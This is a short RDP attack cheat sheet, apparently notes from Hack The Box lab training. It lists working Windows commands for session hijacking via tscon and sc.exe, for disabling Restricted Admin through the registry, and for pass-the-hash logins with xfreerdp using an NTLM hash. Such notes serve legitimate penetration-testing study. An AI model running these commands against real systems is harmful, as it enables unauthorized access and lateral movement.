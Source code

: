 
login via rdp on linux
```shell-session
rdesktop -u admin -p password123 192.168.2.143
```

Impersonating another user (Must have SYSTEM privilege's)
```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Session Hijacking
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create
```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

C:\htb> net start sessionhijack
```

Used when perms are blocking rdp via pass the hash
```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

rdp via pth
```shell-session
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
